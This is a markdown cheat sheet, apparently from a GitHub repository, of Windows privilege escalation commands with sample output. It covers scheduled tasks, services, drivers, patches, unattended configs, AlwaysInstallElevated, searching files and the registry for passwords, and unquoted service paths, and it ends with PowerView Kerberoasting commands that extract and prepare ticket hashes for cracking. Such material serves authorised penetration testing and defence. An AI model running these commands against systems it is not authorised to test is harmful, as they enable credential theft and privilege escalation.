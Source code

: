 # Windows Privilege Escalation Commands

## Host Privilege Escalation

### Schduled Tasks Path Alteration
Schduled tasks we can alter by path? They run at system context:

```schtasks /query /fo LIST /v```
```
C:\Users\KILLSWITCH-GUI>schtasks /query /fo LIST /v

Folder: \
HostName:                             DESKTOP-<SNIP>
TaskName:                             \ASC10_PerformanceMonitor
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive only
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               KILLSWITCH-GUI
Task To Run:                          C:\Program Files (x86)\IObit\Advanced SystemCare\Monitor.exe /Task
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:
Run As User:                          KILLSWITCH-GUI
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At logon time
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
<snip>
```

### Evaluating Vulnerable Services
We can use the `net start` command to evaluate services on the system:

```
C:\Users\KILLSWITCH-GUI>net start
These Windows services are started:

   Advanced SystemCare Service 10
   Application Information
   Application Management
   Background Intelligent Transfer Service
   Background Tasks Infrastructure Service
   Base Filtering Engine
   cFosSpeed System Service
   CNG Key Isolation
   COM+ Event System
   Computer Browser
   Connected Devices Platform Service
   Connected Devices Platform User Service_7e8e2a
   Connected User Experiences and Telemetry
   Contact Data_7e8e2a
   CoreMessaging
   <SNIP>
```

### Evaluating Vulnerable Drivers
Look for vuln drivers loaded, we often don't spend enough time looking at this:

```DRIVERQUERY /FO table```
```
C:\Users\KILLSWITCH-GUI>DRIVERQUERY /FO table

Module Name  Display Name           Driver Type   Link Date
============ ====================== ============= ======================
1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
<SNIP>
```

### Evaluating KBs/Patches
Look for KB / Patches installed or not:
```wmic qfe get Caption,Description,HotFixID,InstalledOn```
```
C:\Users\KILLSWITCH-GUI>wmic qfe get Caption,Description,HotFixID,InstalledOn
Caption                                     Description      HotFixID   InstalledOn
http://support.microsoft.com/?kbid=4022405  Update           KB4022405  6/8/2017
http://support.microsoft.com/?kbid=4022730  Security Update  KB4022730  6/8/2017
http://support.microsoft.com/?kbid=4025376  Security Update  KB4025376  7/12/2017
http://support.microsoft.com/?kbid=4025342  Security Update  KB4025342  7/15/2017
<SNIP>
```
```wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."```
```
C:\Users\KILLSWITCH-GUI> wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB4022405"
http://support.microsoft.com/?kbid=4022405  Update           KB4022405  6/8/2017
```

### Locating Unattended configs
Look for unattended configs in the following dirs:
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```

### Locating AlwaysInstallElevated 
key set to DWORD 1:
```reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated```
```
C:\Users\KILLSWITCH-GUI>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
ERROR: The system was unable to find the specified registry key or value.
```

### Locating Sensitive Files
Search the file system for file names containing certain keywords via cmd:
```dir /s *pass* == *cred* == *vnc* == *.config*```
```
C:\Users\KILLSWITCH-GUI>dir /s *pass* == *cred* == *vnc* == *.config*
 Volume in drive C has no label.
 Volume Serial Number is DA67-AFD2

 Directory of C:\Users\KILLSWITCH-GUI\AppData\Local

06/28/2017  09:04 AM    <DIR>          password-app
               0 File(s)              0 bytes
```

### Locating Sensitive Data In Files
Search certain file types for a keyword via cmd:
```findstr /si password *.xml *.ini *.txt```
```
C:\Users\KILLSWITCH-GUI>findstr /si password *.xml *.ini *.txt
.PyCharmCE2017.1\config\options\ide.general.xml:    <entry key="ide.ssh.one.time.password" value="true" />
AppData\Local\lxss\rootfs\usr\share\dbus-1\interfaces\org.freedesktop.Accounts.User.xml:  <method name="SetPasswordMode">
```

### Locating Passwords Within Thhe Registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
```
C:\Users\KILLSWITCH-GUI>reg query HKLM /f password /t REG_SZ /s

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0fafd998-c8e8-42a1-86d7-7c10c664a415}
    (Default)    REG_SZ    Picture Password Enrollment UX

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{2135f72a-90b5-4ed3-a7f1-8bb705ac276a}
    (Default)    REG_SZ    PicturePasswordLogonProvider
```

###  Locating Unquoted Service Paths
```wmic service get name,startmode,pathname | findstr /i /v ":\windows\" | findstr /v """```
```
C:\Users\KILLSWITCH-GUI>wmic service get name,startmode,pathname | findstr /i /v ":\windows\" | findstr /v """
Name                                      PathName                                                                                                                                                                                                                                                                             StartMode
AJRouter                                  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted                                                                                                                                                                                                                     Manual
ALG                                       C:\WINDOWS\System32\alg.exe                                                                                                                                                                                                                                                          Manual
AppIDSvc                                  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted    
```

---

## Domain Privilege Escalation

### Kerbroasting
https://gist.github.com/HarmJ0y/cc1004307157e372fc5bd3f89e553059

#### Kerbroast a domain and set for crashing is hashcat format:
```powershell
Invoke-Kerberoast -OutputFormat Hashcat | fl
```

#### ACL rights to set a SPN on user account and crack via SPN kerb ticket:
```powershell
1. Set-DomainObject -Identity 'user' -set@{serviceprincipalname='blah\blah'}
2. Invoke-Kerberoast -Identity 'user' -OutputFormat hashcat | fl ==alternative command:== Get-DomainUser -Identity 'user' | Get-DomainSPNTicket 
3. Set-DomainObject -Identity 'user' -Clear serviceprincipalname
```